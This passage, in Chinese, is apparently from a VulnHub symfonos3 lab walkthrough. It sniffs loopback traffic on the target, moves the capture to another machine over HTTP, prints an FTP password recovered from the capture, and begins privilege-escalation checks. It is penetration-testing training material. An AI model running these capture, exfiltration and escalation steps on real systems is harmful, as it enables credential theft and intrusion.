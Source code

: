 ```bash
cd /tmp
tcpdump -D
tcpdump -w lo.pcap -i lo
```

运行命令后静静等待一段时间,再将抓好的包传给分析数据的机器

```bash
cd /tmp
python -m SimpleHTTPServer
```

```bash
wget 192.168.141.150:8000/lo.pcap
```

- 注1 : 这段过程要重复 ctrl+c 断 nc 连接,重连数次,要有耐心
- 注2 : 第一次 tcpdump 后再次执行报无权限,我直接重装了靶机,直接 tcpdump lo 口

这次分析看下
```
tcp.dstport == 21
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/27.png)

发现 hades 的密码 PTpZTfU4vxgzvRBE

---

# 后期-垂直提权

登录,尝试提权
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

和 cerberus 一样啥都没有,突然想到之前 pspy 抓的进程中 ftp 脚本是以 uid0 定时运行的
```bash
cd /opt/ftpclient/
ls
cat ftpclient.py
```
